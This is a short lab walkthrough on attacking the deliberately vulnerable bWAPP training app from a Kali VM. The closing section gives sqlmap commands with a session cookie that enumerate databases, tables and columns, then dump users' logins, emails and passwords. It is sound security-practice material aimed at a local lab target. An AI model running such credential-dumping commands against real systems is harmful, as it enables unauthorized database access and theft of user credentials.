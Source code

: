 # Kali + bWAPP

1. install Kali and bWAPP vm in virtual box;

![](/pentest/VirtualBox-2-VM.png)





2. launch bWAP and make sure it is running;

![](/pentest/bWAPP-VM.png)



3. Launch Kali and make sure you can access the bWAPP from Iceweasel.

![](/pentest/access-bWAPP-from-kali.png)



4. Go to SQL Injection \(GET/Search\)

![](/pentest/choose-SQL-GET.png)



5. key in a search string; copy of the resulted URL;![](/pentest/key-in-search-box.png)

6. Find out the cookie for the site;

![](/pentest/get-cookie-1.png)

![](/pentest/get-cookie-2.png)

**Now, it is show time; launch SQLmap from terminal;**

**step1 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" --dbs

![](/pentest/s1-sql-all-dbs.png)

**step2 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_--tables

![](/pentest/s2-all-tables.png)

**step3 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_-T _**users **_--columns

![](/pentest/s3-all-column.png)

**step4 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --

cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D bWAPP -T users -C** login,email,password** --dump

![](/pentest/s4-all-user-pwd.png)

